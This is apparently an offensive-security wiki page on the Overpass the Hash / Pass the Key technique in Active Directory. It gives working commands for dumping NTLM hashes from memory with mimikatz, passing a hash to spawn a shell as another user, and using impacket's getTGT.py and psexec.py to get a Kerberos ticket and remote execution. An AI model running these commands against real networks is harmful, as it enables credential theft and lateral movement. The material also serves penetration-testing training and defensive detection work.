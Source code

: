 # Overpass the Hash / Pass the Key

This attack aims to **use the user NTLM hash to request Kerberos tickets**, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially **useful in networks where NTLM protocol is disabled** and only **Kerberos is allowed** as authentication protocol.

In the case of over-pass-hash, we are generating the things that would get us that original TGT in memory on the windows client then fronting up to the domain controller for a service ticket to the thing we want access to, and automatically getting the TGT back as part of the exchange so that we can go on and request all access we want to other things.

{% hint style="info" %}
In order to perform this attack, the **NTLM hash \(or password\) of the target user account is needed**. Thus, once a user hash is obtained, a TGT can be requested for that account. Finally, it is possible to **access** any service or machine **where the user account has permissions**.
{% endhint %}

## Grab the Target User Hash

In the target machine run this and dump the NTLM hash of the 'target-user' account:

```text
Sekurlsa::logonpasswords
```

## Overpass the Hash

Using our new hash, we issue the command:

```text
sekurlsa::pth /user:target-user /domain:megabank.local /ntlm:89551acff8895768e489bb3054af94fd
```

#### We should be able to now move from our shell that was running as whomever , to a shell with  'target-user' credentials.

we can use getTGT.py script from impacket toolkit as well:

```text
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

You can **specify** `-aesKey [AES key]` to specify to use **AES256**. You can also use the ticket with other tools like: as smbexec.py or wmiexec.py

